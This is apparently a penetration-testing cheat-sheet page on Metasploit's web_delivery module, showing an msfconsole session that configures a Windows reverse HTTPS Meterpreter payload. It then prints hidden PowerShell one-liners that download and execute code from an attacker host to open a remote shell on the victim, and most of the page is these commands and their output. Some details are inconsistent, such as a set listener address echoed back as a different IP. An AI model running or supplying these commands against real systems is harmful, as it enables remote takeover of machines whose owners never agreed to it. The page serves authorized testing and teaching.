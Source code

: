 # Metasploit Web Delivery



Metasploit’s Web Delivery Script is a versatile module that creates a server on the attacking machine which hosts a payload. When the victim connects to the attacking server, the payload will be executed on the victim machine. This module has a powershell method which generates a string which is needed to be executed on remote windows machine.

```text
msf > use exploit/multi/script/web_delivery
msf exploit(web_delivery) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Python
   1   PHP
   2   PSH


msf exploit(web_delivery) > set target 2
target => 2
msf exploit(web_delivery) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf exploit(web_delivery) > set lhost 10.10.10.10
lhost => 14.97.131.138
msf exploit(web_delivery) > run
[*] Exploit running as background job.

[*] Started HTTPS reverse handler on https://10.10.10.10.:8443
msf exploit(web_delivery) > [*] Using URL: http://0.0.0.0:8080/uMOKs6wtlYL
[*] Local IP: http://10.10.10.10:8080/uMOKs6wtlYL
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -c $X=new-object net.webclient;$X.proxy=[Net.WebRequest]::GetSystemWebProxy();$X.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $X.downloadstring('http://10.10.10.10:8080/uMOKs6wtlYL');
```

When the following command \(when there is no proxy\)

```text
powershell.exe -nop -w hidden -c $X=new-object net.webclient;IEX $X.downloadstring('http://10.10.10.108:8080/uMOKs6wtlYL');
```

or \(when there is proxy\)

```text
powershell.exe -nop -w hidden -c $X=new-object net.webclient;$X.proxy=[Net.WebRequest]::GetSystemWebProxy();$X.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $X.downloadstring('http://10.10.10.10:8080/uMOKs6wtlYL');
```

is executed on the windows remote machine, we should get a meterpreter.

```text
Delivery web_delivery payload
meterprerter>
```

